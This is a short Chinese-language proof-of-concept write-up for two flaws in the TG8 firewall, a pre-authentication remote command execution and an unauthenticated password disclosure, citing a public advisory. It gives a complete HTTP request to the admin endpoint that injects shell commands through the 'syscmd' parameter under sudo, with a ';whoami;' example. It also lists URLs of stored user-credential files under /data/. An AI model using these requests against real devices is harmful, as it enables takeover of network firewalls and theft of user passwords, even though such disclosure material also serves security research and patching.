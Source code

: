 # TG8 防火墙 RCE及密码泄漏漏洞

## 漏洞描述

TG8防火墙中存在两个漏洞，远程用户可以以用户身份执行命令而无需通过设备进行身份验证。第二个漏洞允许在不经过身份验证的情况下公开现有用户的密码。

参考链接：

- https://ssd-disclosure.com/ssd-advisory-tg8-firewall-preauth-rce-and-password-disclosure/

## 漏洞复现

### RCE

poc：

```
POST http://<server>/admin/runphpcmd.php HTTP/1.1
Host: Server
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive


syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+<Payload>++local
```

执行whoami：

```
syscmd=sudo+/home/TG8/v3/syscmd/check_gui_login.sh+;whoami;++local
```

### 密码泄露

/data/目录下储存了登录过用户的凭据，无需登录即可访问此目录下的文件。

例如：

```
http://<server>/data/w-341.tg
http://<server>/data/w-342.tg
http://<server>/data/r-341.tg
http://<server>/data/r-342.tg
```

